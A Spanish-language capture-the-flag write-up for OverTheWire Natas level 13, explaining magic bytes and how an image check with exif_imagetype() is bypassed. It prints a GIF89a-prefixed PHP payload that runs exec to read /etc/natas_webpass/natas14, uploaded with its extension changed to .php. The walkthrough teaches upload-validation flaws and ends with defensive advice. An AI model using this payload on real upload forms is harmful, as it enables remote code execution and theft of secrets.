

# Natas 13 – OverTheWire

La página muestra un formulario para subir archivos (como en el nivel anterior). Esta vez, al intentar subir un archivo `.php`, la aplicación responde:

```url
File rejected! It seems to be not an image.
```

## Analisis

En el código fuente encontramos algo como:

```php
if (exif_imagetype($_FILES['uploadedfile']['tmp_name']) != false) {
    // aceptar el archivo
} else {
    echo "File rejected! It seems to be not an image.";
}
```

Esto significa que el servidor utiliza la función `exif_imagetype()` para comprobar que el fichero subido comienza con los **bytes mágicos (magic bytes)** de una imagen real (JPG, PNG, GIF, etc.).

### Concepto: Magic Bytes

Los **magic bytes** son los primeros bytes de un archivo, que indican su tipo.
Por ejemplo:

| Tipo de archivo | Magic Bytes (en hexadecimal) | En texto |
| --------------- | ---------------------------- | -------- |
| JPEG            | `FF D8 FF`                   | ÿØÿ      |
| PNG             | `89 50 4E 47 0D 0A 1A 0A`    | ‰PNG.... |
| GIF             | `47 49 46 38`                | GIF8     |

Los programas (y funciones como `exif_imagetype`) los usan para identificar el formato del archivo. Si esos bytes no están, el archivo no pasa la validación.

Teniendo todo esto en cuenta lo que debemos hacer es usar la funcion `exec` como hicimos en el ejercicio anterior y ademas añadirle al archivo la cabezera de un arcivo `.gif` por ejemplo.

```php
GIF89a
<?php echo exec('cat /etc/natas_webpass/natas14'); ?>
```

Como en el jercicio anterior subimos el archivo y luego dentro del modo inspeccion vamos a cambiar la extension del archivo a `.php`.

Seguimos el enlace y ya tendremos la contraseña de natas 14



## Conclusion

- Validar únicamente la extensión o los magic bytes **no protege contra código malicioso**.
- La ejecución de código en archivos subidos es una vulnerabilidad crítica (RCE).
- Los archivos subidos deben almacenarse fuera del docroot y servirse de forma estática.
